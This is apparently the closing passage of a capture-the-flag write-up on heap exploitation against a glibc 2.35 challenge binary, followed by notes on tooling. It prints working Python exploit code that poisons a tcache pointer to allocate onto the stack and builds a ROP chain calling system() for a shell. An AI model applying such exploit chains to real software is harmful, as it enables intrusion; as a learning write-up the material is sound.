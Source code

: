 Now that we have a stack leak, we can repeat the write-what-where primitive to write a ROP chain on the stack. I used the return address for the create function at 00001717 because it has no stack canaries.

```py
arb_free(mmap_payload_base+16 + 0x20 + 0xc0) # chunk 4
arb_free(mmap_payload_base+16 + 0x20 + 0x80) # chunk 3

stack_target = stack_leak - 0x148
# Use the 0x220 chunk to overwrite the fwd ptr on chunk 3
create_not_secret(10, b"E" * 0x18 + b"Q" * 0x80 + p64(0x41) + p64(protect(mmap_payload_base, stack_target)) + b"\n", l=0x210)
create_not_secret(0, b"\n", l=0x38) # alloc chunk 3, now the next chunk to be allocated will be on the stack

e = ELF('libc.so.6')
e.address = leak_revealed-0x219ce0
r = ROP(e)
r.call(r.find_gadget(["ret"])) # stack alignment
r.system(mmap_payload_base+0x228)
print(r.dump())
create_not_secret(0, p64(0) + r.chain() + b"\n", l=0x38, final=True)
```

Now we get a shell!

other random notes
----

- I used got libc and ld from the Docker container, and then used [pwninit](https://github.com/io12/pwninit) to get a patched binary that uses this ld/libc.
- The nicely searchable bootlin site also has glibc https://elixir.bootlin.com/glibc/glibc-2.35/source/, I used this a lot to look up malloc/free aborts I was getting, and also all the file structure stuff.

